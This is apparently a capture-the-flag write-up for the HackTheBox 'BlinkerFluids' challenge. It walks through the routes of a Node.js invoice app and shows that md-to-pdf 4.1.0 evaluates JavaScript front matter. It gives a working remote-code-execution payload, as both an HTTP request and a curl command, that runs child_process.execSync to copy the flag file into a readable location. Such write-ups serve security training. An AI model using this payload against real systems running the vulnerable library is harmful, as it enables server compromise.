 ## BlinkerFluids

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

---

The target is a Docker web application. We have access to its source code.

Its a Node.js application that interacts with a SQLite databsae. The database contains a single table: `invoices`. The table is created and initialized via the following statements:

```sql
DROP TABLE IF EXISTS invoices;
CREATE TABLE invoices (
	id           INTEGER      NOT NULL PRIMARY KEY AUTOINCREMENT,
	invoice_id   VARCHAR(255) NOT NULL,
	created      VARCHAR(255) DEFAULT CURRENT_TIMESTAMP
);
INSERT INTO invoices (invoice_id) VALUES ('f0daa85f-b9de-4b78-beff-2f86e242d6ac');
```

All four functions used to interact with the database appear to utilize prepared statements.

The application has three routes:

- `GET /` renders `index.html`
- `GET /api/invoices/list` retrieves all the invoice objects from the database
- `POST /api/invoice/delete`
	- Takes a JSON object with an `invoice_id` key and deletes the corresponding invoice from the database
- `POST /api/invoice/add`
	- Takes a JSON object with a `markdown_content` key
	- Pass `markdown_content` to `MDHelper.makePDF()`
		- Passes `markdown_content` to `md-to-pdf` 4.1.0's `mdToPdf`, which uses the [grey-matter](https://www.npmjs.com/package/gray-matter) library to parse `markdown_content` without disabling the JavaScript engine, opening up an [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

The following requests exploits the vulnerability to copy the flag file to `/static/invoices/flag.txt`, where it can subsequently be read.

```http
POST /api/invoice/add HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/json
Origin: http://localhost:1337
Content-Length: 125
Connection: close

{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"cp /flag.txt /app/static/invoices/flag.txt\"))\n---RCE"}
```

```bash
$ curl -i -s -k -X $'POST' \
    -H $'Host: localhost:1337' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://localhost:1337/' -H $'Content-Type: application/json' -H $'Origin: http://localhost:1337' -H $'Content-Length: 125' -H $'Connection: close' \
    --data-binary $'{\"markdown_content\":\"---js\\n((require(\\\"child_process\\\")).execSync(\\\"cp /flag.txt /app/static/invoices/flag.txt\\\"))\\n---RCE\"}' \
    $'http://localhost:1337/api/invoice/add'
```

```bash
$ curl http://localhost:1337/static/invoices/flag.txt
HTB{...}
```
